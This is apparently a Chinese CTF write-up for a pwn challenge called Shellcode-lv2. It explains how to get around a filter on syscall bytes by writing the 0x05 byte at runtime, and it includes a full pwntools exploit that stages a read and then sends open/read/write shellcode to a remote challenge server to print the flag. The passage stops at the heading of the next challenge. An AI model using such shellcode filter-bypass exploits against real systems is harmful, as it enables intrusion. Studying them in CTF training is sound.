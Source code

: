 #### [Week 3] Shellcode-lv2

从这题看出来我的shellcode编写能力实在差劲。。。

题目逻辑如下，输入的内容中不能包含\xf\x5也就是指令syscall。

首先先考虑这题如何做，看到题目开了沙箱，只能使用ORW，但是10字节肯定不够执行ORW，所以要先构造一次read读入shellcode，shellcode就存在之后的buf里继续执行

<img src="http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-39.png" alt="img" style="zoom:67%;" />

但是syscall被禁了，如何绕过呢？于是有以下方法：

1.构造一个0xf05(通过运算得出），并将其储存在寄存器中，最后call 这个寄存器。

2.利用mov byte ptr [addr],5将5写入buf之后的内存

3.使用int 0x80

由于第一次读入的数据太少了只有0x10，所以考虑用方法二，所以我们需要构造一个15字节长的shellcode，然后再单独把\x0f传进去，最后mov byte ptr [addr],5会将\x05也写进去达到攻击目的。

<img src="http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-38-1024x645.png" alt="img" style="zoom:67%;" />

于是我们可以给出exploit：

```
from pwn import *
#io = process('./pwn1')
io = remote('47.97.58.52',43010)
elf = ELF('./pwn1')
context(os = 'linux',arch = 'amd64')
read_shell = """
xor rdi, rdi
mov rsi,0x20240011
nop
mov byte ptr[rdx+16],5
"""
#gdb--rax=0,rdx=0x20240000
print(len(asm(read_shell)))
payload = asm(read_shell) + b'\x0f'
#gdb.attach(io)
#pause()
io.sendafter(b'Show me what you want to run: ',payload)
addr = 0x20240500
payload1 = shellcraft.amd64.open("./flag")
payload1 += shellcraft.amd64.read(3,addr,0x30)
payload1 += shellcraft.amd64.write(1,addr,0x30)
io.send(asm(payload1))
io.interactive()               
```

#### [Week 3] fmt2orw

主函数逻辑

<img src="http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-40-1024x319.png" alt="img" style="zoom:67%;" />
